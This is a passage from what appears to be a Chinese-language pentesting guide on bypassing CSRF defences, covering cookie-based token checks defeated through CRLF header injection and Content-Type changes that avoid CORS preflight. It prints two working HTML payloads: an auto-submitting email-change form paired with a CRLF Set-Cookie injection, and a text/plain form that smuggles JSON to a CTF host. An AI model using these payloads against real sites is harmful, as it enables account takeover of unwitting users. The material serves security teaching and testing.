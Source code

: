 ### CSRF 令牌通过 cookie 验证

应用程序可能通过在 cookie 和请求参数中重复令牌，或通过设置 CSRF cookie 并验证后端发送的令牌是否与 cookie 中的值相对应来实现 CSRF 保护。应用程序通过检查请求参数中的令牌是否与 cookie 中的值一致来验证请求。

然而，如果网站存在缺陷，允许攻击者在受害者的浏览器中设置 CSRF cookie，例如 CRLF 漏洞，则此方法容易受到 CSRF 攻击。攻击者可以通过加载一个欺骗性图像来设置 cookie，然后发起 CSRF 攻击。

以下是攻击可能的结构示例：
```html
<html>
<!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://example.com/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
<input type="submit" value="Submit request" />
</form>
<img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
</body>
</html>

```
{% hint style="info" %}
注意，如果**csrf token与会话cookie相关，这个攻击将无效**，因为你需要设置受害者的会话，因此你实际上是在攻击自己。
{% endhint %}

### Content-Type 更改

根据[**这个**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests)，为了**避免预检**请求使用**POST**方法，允许的Content-Type值如下：

* **`application/x-www-form-urlencoded`**
* **`multipart/form-data`**
* **`text/plain`**

然而，请注意，**服务器逻辑可能会有所不同**，具体取决于使用的**Content-Type**，因此你应该尝试提到的值以及其他值，如**`application/json`**_**,**_**`text/xml`**, **`application/xml`**_._

示例（来自[这里](https://brycec.me/posts/corctf_2021_challenges)）将JSON数据作为text/plain发送：
```html
<html>
<body>
<form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
<input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
</form>
<script>
form.submit();
</script>
</body>
</html>
```
### 绕过 JSON 数据的预检请求
